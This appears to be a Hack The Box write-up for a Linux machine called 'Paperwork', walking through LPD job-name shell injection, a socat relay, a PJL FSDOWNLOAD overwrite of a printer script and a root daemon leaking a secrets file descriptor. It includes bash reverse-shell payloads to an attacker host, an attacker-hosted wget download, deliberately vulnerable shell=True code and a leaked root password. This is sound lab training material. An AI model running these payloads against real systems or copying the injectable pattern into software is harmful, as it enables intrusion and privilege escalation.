

# HTB: Paperwork

**Machine Write-up**

## Executive Summary

Paperwork is a Linux machine built around a corporate document-archiving theme. A public "Intranet | Document Archiving Service" portal fronts a legacy LPD (Line Printer Daemon, RFC 1179) print-job intake gateway, and internally exposes a raw JetDirect/PJL printer interface used to manage archived print jobs. Neither service treats print-job content as untrusted input, and a host-local "security" daemon written to catch tampering ends up being the very channel that leaks root-level credentials.

The attack chain spans three phases: initial access via a custom, application-specific shell-injection flaw in the target's LPD daemon — no public CVE; the vulnerable `server.py` source was itself disclosed through a link on the archiving portal — landing a shell as the low-privileged `lp` user; an internal pivot through a loopback-only JetDirect/PJL port (9100), relayed out with `socat` and abused via PJL's `FSDOWNLOAD` command to overwrite the printer's own driver script with a reverse-shell payload, escalating to the `archivist` user and the user flag; and privilege escalation to root by poisoning a monitored log file to trigger a flawed "forensic evidence" routine in a background daemon, which leaks a file descriptor for the root-owned admin secrets file over a Unix domain socket.

---

## Phase 1: Reconnaissance & Enumeration

### Network Scanning

An initial nmap scan against the target resolved the hostname and revealed three open services:

```bash
nmap <Machine_IP> -sC -sV -O -A -p 1-10000

Nmap scan report for paperwork.htb (<Machine_IP>)
PORT     STATE SERVICE        VERSION
22/tcp   open  ssh            OpenSSH 10.0p2 Ubuntu 5ubuntu5.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http           nginx 1.28.0 (Ubuntu)
|_http-title: Intranet | Document Archiving Service
1515/tcp open  ifor-protocol?
| fingerprint-strings:
|   TerminalServer, TerminalServerCookie:
|_    Archive_Printer is ready and printing.
```

Port 1515 is the classic port for LPD/lpr (RFC 1179), later confirmed by the banner returned on connection. Port 80 hosts the archiving portal referenced by the hostname.

### Web Enumeration & Source Code Disclosure

Browsing to `paperwork.htb` served an "Intake Portal" page under a "Corporate Systems: Department of Records & Archives" banner. The page laid out exactly the operational details needed to interact with the print gateway: a maintenance notice referencing a backend spooler console (PRN-ARCHIVE-01), a protocol line quoting RFC 1179, the target print queue name (`archive_intake`), and a linked build tag for the "Internal Processor," `paperwork-archive-v1.02`:


*Figure 1 — Intake Portal (paperwork.htb), disclosing the RFC 1179 LPD protocol, the archive_intake queue name, and a link to the paperwork-archive-v1.02 build.*

The `paperwork-archive-v1.02` link served the LPD daemon's own Python source, `server.py` — exposing the exact server-side logic used to process incoming print jobs. Review of the disclosed source showed that only the queue name is checked against an environment variable, while the job name parsed from the client-supplied control file is concatenated directly into a shell command:

```python
VALID_QUEUE = os.environ.get("LPD_QUEUE")

if queue not in VALID_QUEUE:
    self.sock.send(b'\x01')
    return
...
job_name = "Unknown"
for line in decoded_content.split('\n'):
    line = line.strip()
    if line.startswith('J'):
        job_name = line[1:]
        break

subprocess.Popen(f"echo 'Archive: {job_name}' >> /tmp/archive.log", shell=True)
```

`job_name` is taken verbatim from the "J" line of the RFC 1179 control file and passed straight into a `shell=True` subprocess call with no sanitization — a textbook shell-injection sink, and one that is only reachable once the fixed queue name check has been satisfied.

---

## Phase 2: Initial Foothold — Custom LPD Print-Job Shell Injection (no public CVE)

This is an application-specific flaw introduced for the challenge rather than a flaw with a public CVE identifier. The portal's own usage notice warned that "submissions without a valid identifier will fail to process," implying the job name also needs to look like a legitimate archival identifier upstream of the injection point. A proof-of-concept script builds an RFC 1179 print-job request against the `archive_intake` queue, whose control-file J line opens with a plausible identifier (`ARCHIVE-001`), breaks out of the intended shell string with a quote, and appends a reverse-shell command:

```bash
python3 poc.py <Machine_IP> \
  -q archive_intake \
  -c "bash -c 'bash -i >& /dev/tcp/<Attacker_IP>/<Attacker_PORT> 0>&1'" \
  --id ARCHIVE-001 \
  --quote single

[*] Injected J line: JARCHIVE-001'; bash -c 'bash -i >& /dev/tcp/<Attacker_IP>/<Attacker_PORT> 0>&1'; #

[+] Connected to <Machine_IP>:1515
[+] Header ACK'd
[+] Content ACK'd — subprocess should have fired!
```

Triggering the payload against a listener returned a shell as the low-privileged `lp` account — the user the LPD service runs as:

```bash
nc -lvnp <Attacker_PORT>
listening on [any] <Attacker_PORT> ...
connect to [<Attacker_IP>] from (UNKNOWN) [<Machine_IP>] 45674
lp@paperwork:/opt/LPDServer$
```

---

## Phase 3: Internal Pivot — JetDirect/PJL Abuse via a socat Relay

### Port Enumeration

From the `lp` shell, a listener check showed a raw-printing/JetDirect port bound only to loopback:

```bash
lp@paperwork:/etc$ ss -tulpn

Netid  State   Local Address:Port      Process
tcp    LISTEN  127.0.0.1:1337
tcp    LISTEN  127.0.0.1:9100
tcp    LISTEN  0.0.0.0:1515        users:(("python3",pid=984,fd=3))
tcp    LISTEN  0.0.0.0:22
tcp    LISTEN  0.0.0.0:80
```

Port 9100 is the standard raw/JetDirect port used by PJL-speaking printers, but it was reachable only from the host itself.

### Relaying JetDirect Through socat

A copy of socat was staged on the attacking host and pulled onto the target, then used to relay the loopback-bound port outward:

```bash
python3 -m http.server <Attacker_PORT>

lp@paperwork:/opt/LPDServer$ wget http://<Attacker_IP>:<Attacker_PORT>/socat -O /tmp/socat
lp@paperwork:/tmp$ socat TCP-LISTEN:<Attacker_PORT>,fork,reuseaddr,range=<Attacker_Subnet>/24 TCP:127.0.0.1:9100 &
```

### PJL/JetDirect Fingerprinting with PRET

With the relay in place, PRET connected to the printer successfully and identified it as an emulated HP LaserJet 4ML. Its file-listing command correctly showed a `jetdirect.py` driver script, but every attempt to read it through PJL's file-system commands (`cat`, `get`) failed with the same error, despite the file clearly existing:

```bash
python3 pret.py <Machine_IP>:<Attacker_PORT> pjl

Connection to <Machine_IP>:<Attacker_PORT> established
Device:   OK
HP LASERJET 4ML

<Machine_IP>:<Attacker_PORT>:/> ls
-      102   jetdirect.py
<Machine_IP>:<Attacker_PORT>:/> cat jetdirect.py
PJL Error: Volume not available
File not found.
```

### Overwriting jetdirect.py via FSDOWNLOAD

Rather than reading the existing driver script, raw PJL commands were sent directly over the relay to overwrite `jetdirect.py` in place with a small Python reverse-shell payload, using PJL's `FSDOWNLOAD` file-write command:

```bash
python3 -c '
data = "import os,socket,subprocess as sp;sp.call([\"bash\",\"-c\",
        \"bash -i >& /dev/tcp/<Attacker_IP>/<Attacker_PORT> 0>&1\"])\n"
size = len(data)
print("\x1b%-12345X@PJL\r\n@PJL FSDOWNLOAD FORMAT:TEXT NAME=\"0:/jetdirect.py\""
      " SIZE=" + str(size) + " OFFSET=999999\r\n" + data + "\x1b%-12345X\r\n")
' | nc -nv <Machine_IP> <Attacker_PORT>

(UNKNOWN) [<Machine_IP>] <Attacker_PORT> (?) open
OK
OK
```

The write replaced the printer's own `jetdirect.py` driver script in place. After starting a fresh listener and reconnecting with PRET, the replaced script executed, returning a shell as `archivist` and providing access to the user flag:

```bash
nc -lvnp <Attacker_PORT>
listening on [any] <Attacker_PORT> ...
connect to [<Attacker_IP>] from (UNKNOWN) [<Machine_IP>] 34498
archivist@paperwork:~/printer$ ls
jetdirect.py  logs
archivist@paperwork:~/printer$ cd ..
archivist@paperwork:~$ ls
printer  user.txt
```

---

## Phase 4: Privilege Escalation — Forensic-Evidence Leak in paperwork-daemon

### Discovering the Daemon

Process enumeration on the host revealed a root-owned background service:

```bash
archivist@paperwork:~/printer$ ps auxwwf
root   1442  0.0  0.4  28716 18432 ?  Ss  13:57  0:00 /usr/bin/python3 /usr/bin/paperwork-daemon
```

The daemon's world-readable source revealed a Unix-domain-socket service intended to act as a security monitor for the print system. On each connection it checks a print-job log file for PJL forensic keywords (`FSQUERY`, `FSUPLOAD`, `FSDOWNLOAD`). If none are present, it treats the request as clean and returns a signature computed over an admin secret it reads from a root-only file, `/etc/paperwork/admin_pins.conf`. If a keyword is present, it instead branches into what is meant to be a lockdown/evidence-collection routine — and that routine is the actual flaw: it packages the log file together with the still-open file descriptor for the admin secrets file and sends both to whoever is connected, over the socket, as `SCM_RIGHTS` ancillary data, before zipping and clearing the log:

```python
LOG_PATH = "/home/archivist/printer/logs/commands.log"

def get_admin_secret():
    data = os.pread(admin_fd, 1024, 0).decode().strip()
    if "ADMIN_PASSWORD=" in data:
        return data.split("ADMIN_PASSWORD=")[1].split("\n")[0]
    return data

def scan_for_malice():
    with open(LOG_PATH, 'r') as f:
        content = f.read().upper()
        if any(trigger in content for trigger in ["FSQUERY", "FSUPLOAD", "FSDOWNLOAD"]):
            return True
    return False

def trigger_lockdown(conn):
    log_fd = os.open(LOG_PATH, os.O_RDONLY)
    evidence_bundle = array.array("i", [log_fd, admin_fd])
    msg = b"ALERT: SECURITY_VIOLATION. FORENSIC_CONTEXT_ATTACHED."
    conn.sendmsg([msg], [(socket.SOL_SOCKET, socket.SCM_RIGHTS, evidence_bundle)])
    ...
```

In short: the branch written to react to tampering evidence is the one that discloses the very secret it is meant to protect, by handing out a live file descriptor to `admin_pins.conf` rather than just its contents.

### Poisoning the Log to Trigger the Leak

Since the log file lives under the archivist-writable printer directory, writing one of the trigger keywords into it forces every subsequent connection down the lockdown path:

```bash
echo "FSUPLOAD" > /home/archivist/printer/logs/commands.log
```

A small client script then connects to the daemon's Unix socket, receives the ancillary message, and unpacks the file descriptors it carries — the second of which is the still-open, root-owned `admin_pins.conf`:

```bash
python3 exploite.py
[*] Received Message: ALERT: SECURITY_VIOLATION. FORENSIC_CONTEXT_ATTACHED.

[+] SUCCESS! ADMIN SECRET:
ADMIN_PASSWORD=ApparelMortuaryCedar22
```

The recovered credential was valid for the root account, completing full compromise of the machine:

```bash
archivist@paperwork:/tmp$ su - root
Password:
root@paperwork:~# ls /root
quarantine  root.txt  staging
```

---

## Techniques Summary

| Technique | Description | Impact |
|---|---|---|
| Web Portal Source-Code Disclosure | The Intake Portal linked directly to the deployed LPD server's Python source (paperwork-archive-v1.02) | Full visibility into the print-job parsing logic and its shell-injection sink |
| Custom LPD Print-Job Shell Injection (no public CVE) | Attacker-controlled `job_name` from an RFC 1179 control file's J line is interpolated unsanitized into a `shell=True` subprocess call | Initial shell as `lp` |
| socat Relay of a Loopback-Bound JetDirect Port | An uploaded socat binary forwarded the internal-only raw-printing port (9100) out to the attacking host | External reachability of the printer's PJL interface |
| PJL FSDOWNLOAD Driver-Script Overwrite | Raw PJL commands overwrote the printer's own jetdirect.py handler with a reverse-shell payload | Shell as `archivist`, user flag |
| Unix-Socket Forensic-Evidence Race in paperwork-daemon | Poisoning a monitored log file with a forensic keyword tricked the root-owned "security" daemon into leaking a file descriptor for its own admin secrets file via SCM_RIGHTS | Root password recovered, full compromise |
